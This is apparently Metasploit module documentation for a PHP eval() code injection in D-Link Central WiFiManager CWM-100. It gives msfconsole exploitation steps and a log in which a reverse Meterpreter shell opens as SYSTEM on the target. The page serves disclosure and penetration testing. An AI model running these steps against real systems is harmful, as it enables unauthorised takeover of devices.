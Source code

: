 ## Vulnerable Application

### Introduction

This module exploits a PHP code injection vulnerability in D-Link Central WiFiManager CWM‑100.
The vulnerability exists because a user-controlled cookie is passed to the `eval()` function without being
sanitized.

Because the HTTP server runs in the context of a privileged user (with a default installation),
successful exploitation results in code execution as nt_authority\system.

A vulnerable version is available at DLink's vulnerability announcement:
- [The announcement](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10117)
- [ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip](ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip)

## Verification Steps

1. Start `msfconsole`
2. Do: `use windows/http/dlink_central_wifimanager_rce`
3. Do: `set RHOSTS [RHOSTS]`
4. Check the payload options: `show options`
5. Do: `exploit`
6. Verify that you get a shell / meterpreter / that whatever payload you used was executed

## Options

No additional options

## Scenarios

### CWM-100 v1.03

#### Getting a meterpreter session

```
msf exploit(windows/http/dlink_central_wifimanager_rce) > 
msf exploit(windows/http/dlink_central_wifimanager_rce) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (38288 bytes) to 192.168.1.223
[*] Meterpreter session 1 opened (192.168.1.222:4444 -> 192.168.1.223:1783) at 2020-08-13 14:51:09 +0200

meterpreter > sysinfo
Computer    : REVM-PC
OS          : Windows NT REVM-PC 6.1 build 7601 (Windows 7 Professional N Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter > getuid 
Server username: SYSTEM (0)
meterpreter > pwd
C:\Program Files (x86)\D-Link\Central WifiManager\web
meterpreter > ls
Listing: C:\Program Files (x86)\D-Link\Central WifiManager\web
==============================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100666/rw-rw-rw-  177     fil   2014-09-16 16:19:18 +0200  .htaccess
100666/rw-rw-rw-  138884  fil   2016-01-28 13:36:32 +0100  AP_Installation_utility_for_cwm.zip
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:25 +0200  CapLoginStyle
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:25 +0200  Common
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:45 +0200  Conf
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:25 +0200  DBBackup
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:44 +0200  Lang
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:26 +0200  Lib
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:45 +0200  Public
100666/rw-rw-rw-  256     fil   2014-09-16 16:19:18 +0200  README.txt
40777/rwxrwxrwx   0       dir   2020-08-13 13:02:13 +0200  Runtime
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:27 +0200  ThinkPHP
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:26 +0200  Tpl
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:38 +0200  captivalportal
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:36 +0200  ckeditor
100666/rw-rw-rw-  15086   fil   2014-09-16 16:19:18 +0200  favicon.ico
100666/rw-rw-rw-  158     fil   2014-09-16 16:19:18 +0200  index.php
100666/rw-rw-rw-  122     fil   2015-10-29 14:17:48 +0100  redrect.php
100666/rw-rw-rw-  211     fil   2014-09-16 16:19:18 +0200  robots.txt
```
